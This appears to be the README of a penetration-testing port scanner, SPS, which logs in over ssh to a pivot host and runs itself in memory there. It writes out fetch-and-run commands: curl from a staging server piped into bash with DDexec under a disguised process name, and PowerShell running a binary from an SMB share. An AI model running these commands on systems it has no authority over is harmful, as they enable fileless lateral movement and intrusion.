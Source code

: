 # SPS (SimplePortScanner)

SPS is a simple and fast TCP port scanner, with the addition that you have the possibility to run it on any server where you can authenticate via ssh without touching disk. 

In a scenario where we want to scan hosts in an internal network through a pivot, this can help speed up the process and get more reliable results.

## How it works: Scanning from another machine

The tool will authenticate via ssh to the host provided via the `-from` argument. After successfully authenticating, it will execute one of these commands depending on the OS provided with the `-pivot-os` argument.

```bash
# On linux
curl http://<SERVE_IP>:<SERVE_PORT/sps.b64 | bash <(curl http://<SERVE_IP>:<SERVE_PORT>/ddexec.sh) /bin/legit -host <HOST> -port <PORTS> -retries <RETRIES> -delay-between-retries <DELAY...> -timeout <TIMEOUT>

# On windows
powershell -command "\\<SERVE_IP>\<SHARE_NAME>\sps.exe -host <HOST> -port <PORTS> -retries <RETRIES> -delay-between-retries <DELAY...> -timeout <TIMEOUT>"
```

That will download and execute the binary (in memory) and return the results in `STDOUT`. 

> The linux command makes use of [DDexec](https://github.com/arget13/DDexec) in order to execute the tool in memory

## Installation / Setup

Clone the repository:

```bash
git clone https://github.com/squ4r00t/sps
```

Compile the code for your machine:

```bash
cd sps/
go build -o sps .
```

You now have an executable that you can run on your machine. 

> You can test that it works by running it (without any arguments, it will scan all tcp ports on `127.0.0.1`).

Now, you will need to compile the code for the host that will run the `sps`. You can do it as follows:

```bash
# For linux
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -o serve/sps
cat serve/sps | base64 -w0 | tee serve/sps.b64

# For windows
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -o serve/sps.exe
```

Now you have all you need to get started.

## Usage

```bash
> sps --help

Usage of ./sps:
  -delay-between-retries int
        Time delay between each retry (default 500)
  -from string
        The host to run the scan from. You should also provide a ssh user and password/key
  -host string
        The host to scan, or valid CIDR range (default "127.0.0.1")
  -nmap string
        Arguments passed to nmap. Example: "-A -oN nmap" (default "no")
  -pivot-os string
        OS of the host running the scan (default "linux")
  -port string
        Ports to scan: coma-separated list or 'alltcp' for all tcp ports (default "alltcp")
  -retries int
        The number of retries before moving to another port (default 3)
  -serve-ip string
        The IP of the web server. Should be accessible by the host running the scan
  -serve-port string
        The port of the web server
  -share-name string
        The name of the share hosting the executable
  -ssh-key string
        The path to the private key file used to log in
  -ssh-pass string
        The ssh password used to log in
  -ssh-port string
        The Port ssh is running on. Default 22 (default "22")
  -ssh-user string
        The user to log in as. Should be used with -from
  -timeout int
        Time to wait for server response (default 5000)
```

### Normal Scan
___

Here are some basic use cases:

```bash
# Scanning all tcp ports on 10.10.10.10
sps -host 10.10.10.10

# Scanning ports 22 and 80 on 10.10.10.10
sps -host 10.10.10.10 -port 22,80

# Scanning all tcp port on all live hosts in 10.10.10.0/24
sps -host 10.10.10.0/24
```

### Scanning from another machine
___
First, you'll need to setup either a webserver or a smbshare depending on the os of the machine:

```bash
# Python web server
cd sps/serve
python3 -m http.server 1337

# SMB share
impacket-smbserver myshare sps/serve/
```

Similar usage as a normal scan, but you'll need to provide additional arguments:
- `-from`: IP address of the machine to run scan from
- `-ssh-user`: User to authenticated as via ssh
- `-ssh-pass` or `-ssh-key`: SSH password or path to private key file (not both)
- `pivot-os`: The operating system of the machine running the scan: windows or linux (if not specified will default to linux)
- `-serve-ip` and `-serve-port`: The IP address and the port number hosting the binary (you will need to setup a web server for linux or smbshare for windows)
- `-share-name`: Name of the smb share hosting the executable (if `pivot-os` is windows)